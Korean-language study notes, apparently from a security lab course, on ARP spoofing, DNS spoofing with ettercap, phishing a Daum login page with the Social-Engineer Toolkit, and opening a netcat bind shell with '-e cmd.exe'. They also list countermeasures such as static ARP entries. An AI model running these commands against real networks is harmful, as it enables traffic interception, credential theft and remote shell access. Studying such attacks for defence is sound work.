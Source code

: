 ```
arp spoof 

192.168.195.130

arpspoof -t 타겟ip

arpspoof -t 192.168.195.130 192.168.195.2

192.168.195.2         00-50-56-ed-bf-63     동적
192.168.195.2         00-0c-29-a2-31-85     동적
```
* `fragrouter -B1`
    - arp spoofing 할때 사용 툴

### 대응방안
* 보안솔루션을 이용한 탐지
    - 스위치,라우터 같은 경우 -> 해당 포트에 연결되어 있는 지정된 mac 주소외 다른 프레임은 버림
* ip충돌 확인 (내 ip와 맥주소를 브로드캐스트)
    - Gratuitous ARP(my ip,mac address)
* ARP Table static(정적) 설정함
    - `arp -s <ip> <mac>`   (임시)
    - `netsh interface ip show config`
        + 인터페이스 이름 확인
    - `netsh interface ipv4 add neighbors <인터페이스 이름> <IP> <MAC>`   (영구)

### DNS 스푸핑
* DNS를 속이는 것, 피싱에 이용가능
* DNS 쿼리를 중간에서 확인하여 조작된 DNS 응답을 보내 희생자의 DNS 정보를 스푸핑함

```bash
$ vim /etc/ettercap/etter.dns

*      A   칼리리눅스ip
#*.microsoft.com    A   107.170.40.56
www.microsoft.com  PTR 107.170.40.56  

$ ettercap -G
```
* SET(사회공학적기법)
```bash
$ setoolkit

https://logins.daum.net/accounts/signinform.do
```

---
### netcat을 이용한 쉘 연결
* 정방향 연결
    - 희생자 : nc -lvp 4444 -e cmd.exe  (/bin/bash)
    - 공격자 : nc <win7IP> 4444
